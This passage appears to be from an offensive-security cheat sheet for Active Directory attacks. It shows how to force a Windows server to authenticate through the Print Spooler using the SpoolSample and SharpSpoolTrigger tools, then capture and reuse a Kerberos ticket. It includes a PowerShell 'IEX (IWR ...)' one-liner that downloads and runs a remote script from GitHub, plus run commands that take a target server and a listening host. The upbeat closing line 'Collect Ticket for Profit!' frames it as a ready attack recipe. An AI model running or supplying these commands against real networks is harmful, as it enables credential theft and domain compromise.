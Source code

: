     IEX (IWR -UseBasicParsing https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)

##### Execute

    Invoke-SpoolSample -Command "[Target Sever] [Listening Host]"

### 2) SharpSpoolTrigger https://github.com/cube0x0/SharpSystemTriggers

##### Execute
    
    SharpSpoolTrigger.exe [Target Sever] [Listening Host]

### Collect Ticket for Profit! Impersonate this using Pass the Ticket.
